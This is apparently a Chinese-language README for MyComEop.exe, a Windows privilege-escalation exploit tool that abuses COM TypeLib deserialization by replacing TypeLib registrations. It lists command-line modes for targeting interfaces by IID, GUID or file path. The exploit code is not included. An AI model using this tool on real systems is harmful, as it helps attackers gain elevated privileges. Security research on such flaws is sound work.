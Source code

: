 TypeLib反序列化提权利用工具

#### 介绍

>漏洞利用工具测试方式如下,需要管理员运行

1.只适用Windows7系统直接运行,无参数,替换默认Typelib

MyComEop.exe

2.替换指定接口TypeLIb文件路径的Com组件TypeLIb,比如C:\xxx.dll

MyComEop.exe [u] [TypeLib_Path]

3.替换指定接口IID的Com组件TypeLIb,比如 {55e3ea25-55cb-4650-8887-18e8d30bb4bc}

MyComEop.exe [u] [IID_Interface]

4.高级模式接口IID=[IID_Interface],接口名称=[InterfaceName],接口的TypeLib_GUID=[TypeLib_GUID_Interface],接口TypeLIb文件路径=[TypeLib_Path]

MyComEop.exe [u] [IID_Interface] [InterfaceName] [TypeLib_GUID_Interface] [TypeLib_Path] [Disable_Redirection]

5.不替换文件,仅测试指定接口IID的Com组件TypeLIb利用,比如 {55e3ea25-55cb-4650-8887-18e8d30bb4bc}

MyComEop.exe [t] [IID_Interface]
